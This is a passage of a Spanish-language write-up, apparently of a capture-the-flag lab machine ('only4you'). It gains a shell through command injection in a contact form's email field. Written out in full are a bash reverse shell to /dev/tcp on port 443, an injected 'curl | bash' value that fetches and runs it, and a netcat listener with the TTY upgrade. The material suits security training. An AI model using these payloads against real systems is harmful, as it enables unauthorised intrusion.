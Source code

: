 Recibo la traza ICMP

```null
tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
15:39:54.447543 IP 10.10.11.210 > 10.10.16.40: ICMP echo request, id 2, seq 1, length 64
15:39:54.457961 IP 10.10.16.40 > 10.10.11.210: ICMP echo reply, id 2, seq 1, length 64
```

Creo un archivo que se encargue de enviarme una reverse shell y lo comparto con python para interpretarlo

```null
cat index.html
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.16.40/443 0>&1'
```

```null
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```null
name=test&email=test%40test.com|curl+10.10.16.40|bash&subject=test&message=test
```

Recibo la conexión en una sesión de ```netcat```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.40] from (UNKNOWN) [10.10.11.210] 59714
bash: cannot set terminal process group (1013): Inappropriate ioctl for device
bash: no job control in this shell
www-data@only4you:~/only4you.htb$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@only4you:~/only4you.htb$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@only4you:~/only4you.htb$ export TERM=xterm
www-data@only4you:~/only4you.htb$ export SHELL=bash
www-data@only4you:~/only4you.htb$ stty rows 55 columns 209
```

Estoy en la máquina víctima

```null
www-data@only4you:~/only4you.htb$ hostname -I
10.10.11.210 dead:beef::250:56ff:feb9:14ca 
```

El usuario ```dev``` es propietario de varios archivos en ```/opt```
